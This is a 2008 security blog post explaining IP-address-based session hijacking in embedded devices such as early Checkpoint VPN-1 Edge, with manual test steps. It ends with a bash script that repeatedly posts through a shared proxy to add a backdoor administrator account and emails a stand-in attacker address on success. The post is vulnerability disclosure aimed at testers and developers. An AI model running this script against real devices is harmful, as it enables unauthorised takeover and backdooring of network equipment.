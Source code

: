 ```yaml
---
title: Holes In Embedded Devices - IP-based session management
author: pagvac
date: Tue, 29 Jan 2008 10:39:22 GMT
template: post.jade
category: fucked
---
```


Devices that implement IP address-based session management follow the algorithm described by the pseudocode shown below:

    if (submitted username and submitted password) == (credentials on device config)
    then
        do white-list user's source IP address
    

    The implications are obvious: devices located in environments in which different users share the same proxy are vulnerable to administrative session hijacking attacks. Please note that this session hijacking attack has nothing to do with the classic TCP hijacking attack in which sequence numbers are predicted by the attacker. Therefore, attacking a device susceptible to a "IP address-based session management" vulnerability does not require the attacker to intercept/sniff the traffic between the victim admin user and the target device. Rather, this attack performs session hijacking at the _HTTP application layer_ by providing the piece of information that is used by the target device to "know" who has access to authenticated resources on the web console: a trusted source IP address in this case.

    As an example, let's consider a corporate environment in which hundreds of users share the same proxy while browsing the web. Now, let's imagine that the administrator of the vulnerable device never checked the _bypass proxy server for local addresses_ option on his/her web browser. In other words, the administrator usually configures the vulnerable device via a proxy which is used by everyone else in the network.

    The result is that any malicious user using the same proxy as the administrator of the target device, can gain full administrative access via the web console by simply adding the device's IP address on the browser's address bar. Of course this attack would be more realistic by automating the process of hijacking the admin session on the web console and performing a malicious/interesting operation. i.e: backdoor the device by adding a new administrative account.

    Early versions of Checkpoint VPN-1 Edge, suffer from this vulnerability. As any other webapp pentester I started analyzing HTTP requests after logging in to the web console of this appliance. I quickly realized that no session IDs had been assigned to my HTTP session, neither was my browser submitting my username and password via common methods such as HTTP basic authentication. There was nothing being sent by my browser that would tell the VPN-1 Edge appliance that I was supposed to have access to the administrative functionalities. This led me to suspect that the appliance was simply trusting my IP address while the session hadn't yet timed out. So I simply performed the following checks which in order to test the potential "IP address-based session management" vulnerability:

1.  Opened a completely different browser rather than a new tab or window of the same browser. i.e.: Opera rather than Firefox
2.  Entered the URL of an administrative menu (i.e.: `http://192.168.10.1/network_settings.cgi`) on Opera and checked if I had access to it

    > Note: in the previous example, both Firefox and Opera were connecting via the same proxy, thus submitting HTTP requests to the VPN-1 appliance from the same source IP address.

    Since the firewall kindly offered me all the administrative functionalities which allowed me to change settings, it was obvious that the device was vulnerable.

    However, at this point I needed to make sure that other IP addresses other than my current one could not access the admin features while the session was considered active (if this was possible the issue would be even more severe). Therefore I simply removed the proxy settings from my browser and tried accessing a URL that would return an administrative page on the device. Accessing the firewall's web console from a different IP address - in this case the one assigned to my workstation - did _not_ work. Therefore, it could be concluded that while the administrative session is considered active by the firewall (i.e.: has not timed out yet), the firewall simply trusts HTTP requests that come from the IP address that has been white-listed.

    Provided that the VPN-1 appliance had also trusted other source IP addresses, while the admin session was active, then the appliance would suffer from a binary state session management vulnerability which will be explained in my following post. Feel free to use the aforementioned test steps to test your appliance. I've seen several devices affected by this issue, so developers of embedded software and security researchers are recommended to add this vulnerability type to their security testing checklist!

    An aspect that is important to mention regarding "IP-based session management" holes is weather or not the affected device implements an idle session timeout period. In case a session timeout mechanism is implemented, the timeout period (i.e.: 10 minutes) matters a lot, as it defines the window of opportunity to launch a session hijacking attack.

    A possible technique that can be used to exploit short timeout periods consists of writing a script that attempts to perform a configuration change on the vulnerable device every X minutes, where X is smaller than the idle session timeout period of the vulnerable device.

    The following is a hypothetical bash script that would attempt to add a new account on the vulnerable device every 5 seconds:

    #!/bin/bash

    target="192.168.10.1";
    email="attacker@evil-domain.foo"

    while true
    do
        if curl -s -x sharedproxy.company.foo:3128 -d "operation=addaccount&usr=hax0r&pwd=s3cr3tP455" $target | grep "account added successfully" > /dev/null
        then
            // log successful pwnage!!
            mail $email -s "backdoor account added successfully"
            exit 1
        fi
        sleep 5
    done

_Enjoy playing with IP-based session hijacking attacks! As you can see they are trivial to launch once the attacker has enough details of the vulnerable device._
